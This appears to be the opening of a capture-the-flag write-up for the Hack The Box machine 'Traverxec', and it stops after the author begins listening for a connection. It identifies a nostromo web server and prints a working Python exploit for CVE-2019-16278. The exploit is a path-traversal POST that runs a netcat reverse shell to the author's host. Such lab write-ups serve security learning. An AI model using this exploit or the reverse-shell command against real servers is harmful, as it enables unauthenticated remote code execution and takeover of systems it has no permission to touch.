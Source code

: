 this machine running http (80) and ssh (22) ,after that i open the web page on my browser
and this is the web page

<img src="/images/htb/Traverxec/2019-12-09-223134_1288x562_scrot.png" style="width: 500px;">

it's look like a normal static website, so i try to accessing /admin and this is what i got

<img src="/images/htb/Traverxec/2019-12-09-223400_347x123_scrot.png">

as you can see , this website is using nostromo web server , so i check about this webserver
and searching for the bug and i got this CVE [here](https://www.sudokaikan.com/2019/10/cve-2019-16278-unauthenticated-remote.html) so i create a python script to exploit the web server , this is my exploit :

{% highlight python %}
from pwn import *

#CVE-2019-16278
cmd = "nc -e /bin/bash 10.10.15.185 1337"
payload="""POST /.%0d./.%0d./.%0d./.%0d./bin/sh HTTP/1.0\r\nContent-Length: 1\r\n\r\necho\necho\n{} 2>&1""".format(cmd)

r = remote("10.10.10.165",80)
r.sendline(payload)
r.interactive()
{% endhighlight %}

before running the script i listenning to port 1337 from my machine
